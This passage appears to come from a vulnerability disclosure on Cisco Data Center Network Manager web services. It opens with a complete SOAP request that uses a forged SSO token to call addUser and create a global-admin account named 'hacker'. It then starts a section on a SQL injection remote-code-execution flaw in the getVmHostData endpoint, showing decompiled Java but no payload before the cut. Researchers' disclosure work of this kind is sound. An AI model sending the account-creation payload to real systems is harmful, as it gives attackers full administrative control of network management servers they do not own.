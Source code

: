 ```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ep="http://ep.san.jaxws.dcbu.cisco.com/">
    <SOAP-ENV:Header xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <m:ssoToken xmlns:m="http://ep.jaxws.dcbu.cisco.com/">1337.9999999999999.PxU+ahyOPP9L22+K4u1+6g==.hax</m:ssoToken>
    </SOAP-ENV:Header>
    <soapenv:Body>
        <ep:addUser>
            <userName>hacker</userName>
            <password>Hacked123</password>
            <roleName>global-admin</roleName>
            <enablePwdExpiration>false</enablePwdExpiration>
        </ep:addUser>
    </soapenv:Body>
</soapenv:Envelope>
```

<p markdown="1" class="cn">[ret2toc](#table-of-contents)</p>

### HostEnclHandler getVmHostData SQL Injection Remote Code Execution Vulnerability

<p class="cn" markdown="1">Inside of the `com.cisco.dcbu.jaxws.san.ep.DbInventoryWS` class we see the following code.</p>

```java
/*      */ @Remote({DbInventorySEI.class})
/*      */ @SOAPBinding(style = SOAPBinding.Style.RPC, use = SOAPBinding.Use.LITERAL)
/*      */ @HandlerChain(file = "../../ep/fms-jaxws-handlers.xml")
/*      */ @WebContext(contextRoot = "/DbInventoryWSService", urlPattern = "/DbInventoryWS")
/*      */ @WebService(name = "DbInventoryWS", serviceName = "DbInventoryService", endpointInterface = "com.cisco.dcbu.jaxws.san.ep.DbInventorySEI")
/*      */ @Stateless
/*      */ public class DbInventoryWS
/*      */   implements DbInventorySEI
/*      */ {
/*      */
/*      */   //...
/*      */
/*      */   @WebMethod(operationName = "getVmHostData")
/*      */   @WebResult(name = "result", partName = "result")
/*      */   public VmDO[] getVmHostData(DbFilterDO dbFilter, int startIdx, int recordSize, boolean isHost) throws SanServiceException {
/*      */     try {
/*  610 */       ArrayList<VmDO> rstList = HostEnclHandler.getInstance().getVmHostData(dbFilter, startIdx, recordSize, isHost, null, null);
/*  611 */       if (rstList.size() < recordSize)
/*  612 */         recordSize = rstList.size(); 
/*  613 */       VmDO[] retEP = new VmDO[recordSize];
/*  614 */       for (int i = 0; i < recordSize; i++) {
/*  615 */         retEP[i] = (VmDO)rstList.get(i);
/*      */       }
/*  617 */       return retEP;
/*  618 */     } catch (Throwable e) {
/*  619 */       logger.warn("DbInventoryWS caught exception in getVmHostData():", e);
/*  620 */       throw new SanServiceException("Cannot get all vm host length in san", e);
/*      */     } 
/*      */   }
```
